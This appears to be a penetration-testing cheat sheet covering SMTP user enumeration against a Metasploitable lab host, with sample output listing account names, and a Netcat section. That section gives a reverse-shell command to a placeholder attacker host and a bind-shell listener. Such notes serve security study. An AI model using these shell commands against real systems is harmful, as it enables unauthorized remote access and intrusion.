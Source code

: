 ```
192.168.119.129: user exists
192.168.119.129: uucp exists
192.168.119.129: www-data exists
######## Scan completed at Wed Mar 10 21:16:32 2021 #########
30 results.

168 queries in 1 seconds (168.0 queries / sec)
```
add -D metasploitable.localdomain to guess valid email address instead of user name
```
192.168.119.129: mysql@metasploitable.localdomain exists
192.168.119.129: news@metasploitable.localdomain exists
192.168.119.129: nobody@metasploitable.localdomain exists
192.168.119.129: postfix@metasploitable.localdomain exists
```


# Netcat
```
nc -nv 192.168.0.22 80
```
-n           numeric-only IP addresses, no DNS  
-v           verbose [use twice to be more verbose]  

if victim execute this, it will connect to attacker's listening nc, and provide shell to him
```
nc -nv attackerIP port -e /bin/bash
```

## Listening
Victim listening on port, whoever connect to it will gain the shell
```
nc -nvlp 4444 -e /usr/bin/bash
```
-l listening  
-p port   
-e filename             program to exec after connect \[dangerous!!]  


